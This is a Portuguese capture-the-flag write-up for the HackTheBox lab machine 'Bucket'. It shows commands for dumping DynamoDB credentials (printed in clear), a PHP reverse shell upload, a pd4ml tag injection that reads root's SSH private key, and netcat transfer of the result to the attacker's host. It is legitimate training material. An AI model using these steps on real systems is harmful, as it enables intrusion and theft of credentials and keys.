 <html>
 <body>
  <script src="https://www.hackthebox.eu/badge/148108"></script>
 </body>
 </html>


Back to all write-ups: [here](https://repo4chu.github.io/hackthebox/)


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Bucket - HackTheBox - WriteUp
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
![image](https://i.imgur.com/Y1obslX.png)

**Tools** utilizadas:
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
nmap
awscli
curl
wfuzz
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=1/4%OT=22%CT=1%CU=36786%PV=Y%DS=2%DC=T%G=Y%TM=5FF34D45
OS:%P=i686-pc-windows-windows)SEQ(SP=FD%GCD=1%ISR=104%TI=Z%CI=Z%II=I%TS=A)O
OS:PS(O1=M54DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DS
OS:T11NW7%O6=M54DST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)E
OS:CN(R=Y%DF=Y%T=40%W=FAF0%O=M54DNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F
OS:=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5
OS:(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z
OS:%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=
OS:N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%
OS:CD=S)

Uptime guess: 41.328 days (since Tue Nov 24 06:23:01 2020)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=253 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 53/tcp)
HOP RTT       ADDRESS
1   190.00 ms 10.10.14.1
2   192.00 ms bucket.htb (10.10.10.212)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Ao acessar a porta 80, somos redirecionados para o dominio: bucket.htb
Portanto, vamos adiciona-lo no arquivo de hosts
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
echo 'bucket.htb  10.10.10.212' >> /etc/hosts
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Após isso conseguimos acessar a página web, após alguns testes, não foi possível encontrar outros diretórios e arquivos.

![Image](https://i.imgur.com/Wsd50kp.png)

Ao analisar o código fonte, podemos ver que possuimos um subdomain (s3):
![Image](https://i.imgur.com/tXc0CNj.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
http://s3.bucket.htb/
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Vamos tentar encontrar diretorios nele com o wfuzz:
![Image](https://i.imgur.com/VppmJzb.png)

Podemos encontrar 2 diretórios:
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
health
shell
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Ao acessar o diretório shell, podemos perceber o serviço 'DynamoDB'.
![Image](https://i.imgur.com/RXhjaJf.png)


Para interagir com esse serviço, vamos utilizar a tool da própria AWS, conhecida como aws-cli

Após algumas horas lendo documentações, finalmente temos o comando correto para interagir:

![Image](https://i.imgur.com/Kiz6WsO.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
aws dynamodb list-tables --endpoint-url http://s3.bucket.htb/
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

e b00m, temos o nome da tabela que está rodando lá :D
Vamos ver se conseguimos credenciais;


![Image](https://i.imgur.com/P3J8y29.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
aws dynamodb scan --table-name users --endpoint-url http://s3.bucket.htb/
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Temos credenciais :D
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Mgmt:Management@#1@#
Cloudadm:Welcome123!
Sysadm:n2vM-<_K_Q:.Aa2
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Ao tentar valida-las via SSH, nenhum login foi possível

Listando os arquivos:

![Image](https://i.imgur.com/updbyQp.png)

Após isso, tentamos fazer o upload de uma reverse shell para o servidor.
No nosso caso vamos utilizar a [shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) do 'Pentest Monkeys' 

![Image](https://i.imgur.com/VLLIuAS.png)

w00t temos uma shell como www-data, vamos tentar melhorar nossa shell com python

![Image](https://i.imgur.com/24FbvOg.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
python3 -c 'import pty;pty.spawn("/bin/bash")'
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Com isso, temos uma shell interativa e encontramos um novo usuário chamado 'Roy'
Portanto podemos testar as senhas já obtidas previamente para este usuário.

ee entãoo:

![Image](https://i.imgur.com/me6RqLL.png)

Agora vamos melhorar nossa shell logando via SSH com o usuário 'Roy'
![Image](https://i.imgur.com/0q73Xnv.png)


Após uma analise do que estava rodando na máquina, podemos perceber que o arquivo '/var/www/bucket-app/index.php' faz a criação de uma tabela e escreve um arquivo após a requisição correta.
![Image](https://i.imgur.com/LDuapI6.png)


Então, vamos tentar fazer a criação dessa tabela manualmente.
![Image](https://i.imgur.com/894o4iV.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
aws dynamodb create-table --table-name alerts --attribute-definitions AttributeName=title,AttributeType=S --key-schema AttributeName=title,KeyType=HASH --provisioned-throughput ReadCapacityUnits=10,WriteCapacityUnits=5 --endpoint-url=http://s3.bucket.htb
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


 Agora que a tabela foi criada vamos escrever nosso arquivo desejado.
![Image](https://i.imgur.com/SOPFNoe.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
aws dynamodb put-item --table-name alerts --item '{"title": {"S": "Ransomware"}, "data": {"S": "<pd4ml:attachment description=\"attached.txt\" icon=\"PushPin\">file:///root/.ssh/id_rsa</pd4ml:attachment>"}}' --endpoint-url=http://s3.bucket.htb
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Podemos validar se foi criado e escrito corretamente.
![Image](https://i.imgur.com/2UCnT06.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
aws dynamodb scan --table-name alerts --endpoint-url http://s3.bucket.htb/
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Precisamos fazer forward para conseguir enviar a requisição, então
![Image](https://i.imgur.com/ZAZDHJH.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
ssh -L 8000:127.0.0.1:8000 roy@10.10.10.212
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Agora podemos fazer nossa requisição.

![Image](https://i.imgur.com/UshHUgt.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
curl -X POST -d "action=get_alerts" http://127.0.0.1:8000/ -v
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


O arquivo agora foi criado na pasta /var/www/bucket-app/files/result.pdf
![Image](https://i.imgur.com/15FUBjs.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
nc -vvn 10.10.14.218 443 < result.pdf
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Agora transferimos o arquivo PDF contendo o arquivo que inserimos na tabela para nossa máquina, utilizando o netcat.

![Image](https://i.imgur.com/kwRhhHi.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
nc -vnlp 443 > result.pdf
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Após baixarmos o arquivo para nossa máquina, podemos abri-lo como PDF, e lá está, nosso arquivo (id_rsa)
![Image](https://i.imgur.com/TU7OLGp.png)

E então, salvamos o arquivo em nossa máquina com permissão 600 e assim podemos fazer o login como root!
![Image](https://i.imgur.com/wB66Uvu.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
chmod 600 id_rsa
ssh root@bucket.htb -i id_rsa
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


if i helped you, add + respect at my profile :D
<html>
 <body>
  <script src="https://www.hackthebox.eu/badge/148108"></script>
 </body>
 </html>
 
my references
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
https://docs.aws.amazon.com/pt_br/amazondynamodb/latest/developerguide/Tools.CLI.html
https://searchcloudsecurity.techtarget.com/feature/Hands-on-guide-to-S3-bucket-penetration-testing
https://blogs.perficient.com/2019/08/27/how-to-use-the-aws-api-with-s3-buckets-in-your-pen-test/
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

